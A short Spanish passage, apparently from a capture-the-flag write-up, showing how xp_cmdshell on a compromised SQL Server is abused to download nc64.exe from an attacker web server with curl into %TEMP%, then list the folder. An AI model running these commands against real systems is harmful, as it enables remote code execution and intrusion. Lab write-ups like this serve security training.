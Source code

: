 ![curl](../../../../../assets/Freelancer/curl.png)

###### Subiendo nc64.exe

Vale ya nos hemos serciorado que tenemos todo lo necesario para poder subir archivos, vamos abusar del archivo temp para subirlo y poder ejecutarlo y roguemos que no de problemas.

- Montemos nuestro servidor web con python para poder compartir el archivo 
- Una vez lo hemos montado podemos dirigirnos denuevo a la consola de la base de datos, habilitar las opciones avanzsadas y xp_cmdshell. Rapidamente ponemos el siguiente comando 

```
exec xp_cmdshell 'curl http://10.10.14.11/nc64.exe -o "%TEMP%\nc64.exe"'
```
La respuesta tendria que ser algo como esto, si no hiciste algo mal. Veamos si quedo bien guradado.

```
EXEC xp_cmdshell 'dir %TEMP%'
```
